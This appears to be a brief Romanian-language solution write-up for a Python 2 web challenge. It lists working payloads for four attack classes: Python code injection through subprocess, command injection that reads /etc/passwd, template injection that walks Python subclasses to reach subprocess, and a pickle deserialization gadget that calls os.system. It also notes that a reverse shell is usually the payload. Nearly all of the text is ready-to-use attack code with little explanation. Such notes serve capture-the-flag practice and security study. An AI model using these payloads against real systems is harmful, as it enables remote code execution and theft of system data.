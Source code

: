 Python2.
Rezolvare:

1.Python code injection
__import__('subprocess').Popen('uname -a',shell=True,stdout=__import__('subprocess').PIPE).stdout.read().decode('utf-8')

2.Command execution
test || cat /etc/passwd (ex)

3.Template injection
https://hackerone.com/reports/125980 - copiat dupa asta mai exact scrii {{command}} ca sa se execute, unde {{}} e templateul. Identifici cu comanda de mai jos ce biblioteci sunt folosite in cod si apoi folosesti urmatorul payload:
     {{ [].__class__.__base__.__subclasses__() }}

{{''.__class__.mro()[2].__subclasses__()[247]('uname -a',shell=True,stdout=-1).communicate()[0]}} - 247 este pozitia pe care avem biblioteca subprocess.

4.Deserialization
class Blah(object):
    def __reduce__(self):
        return (os.system,("uname -a",))
h=Blah()
base64.b64encode(cPickle.dumps(h))
----- os.system va returna 0 ceea ce inseamna ca se executa ( de fel folosesti un reverse shell pt asta)
